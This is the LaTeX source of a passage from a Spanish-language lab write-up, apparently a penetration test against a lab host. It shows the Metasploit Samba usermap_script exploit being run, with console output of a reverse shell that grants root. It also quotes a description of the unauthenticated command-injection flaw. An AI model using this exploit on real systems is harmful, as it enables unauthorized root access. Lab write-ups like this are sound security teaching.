 \documentclass[a4paper,12pt]{scrartcl}
\begin{document}
\subsection{Samba}

Samba es la implementación libre de SMB (ahora llamado CIFS) de Windows para UNIX, en resumen, un protocolo de compartición de archivos en red, independiente de la plataforma y muy extendido.

Si realizamos el mismo proceso con Samba que con Tomcat, empezaríamos buscando en la base de datos de Metasploit herramientas relacionadas con samba, empezando por los escáneres. Sin embargo, de los escáneres de Samba no hemos obtenido ningún dato relevante como sucedió con Tomcat. Después de probar varias herramientas\footnote{Se puede hacer búsqueda con \textbf{search smb} y \textbf{search samba}}, damos con una que nos permite la ejecución arbitraria de código, ¡como root!


\begin{lstlisting}[breaklines]
> use exploit/multi/samba/usermap_script 
> set RHOST 192.168.59.100
> exploit

[*] Started reverse TCP double handler on 192.168.59.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jccnjDkHvTQNpLTH;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jccnjDkHvTQNpLTH\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.59.1:4444 -> 192.168.59.100:58336) at 2016-05-23 13:31:24 +0200

id
uid=0(root) gid=0(root)
\end{lstlisting}

Si buscamos acerca del exploit que permite esto, encontramos lo siguiente:

\vspace{10pt}

\textit{This module exploits a command execution vulerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default ``username map script'' configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!\cite{rapid7-userscriptsamba}}

\vspace{10pt}
\end{document}
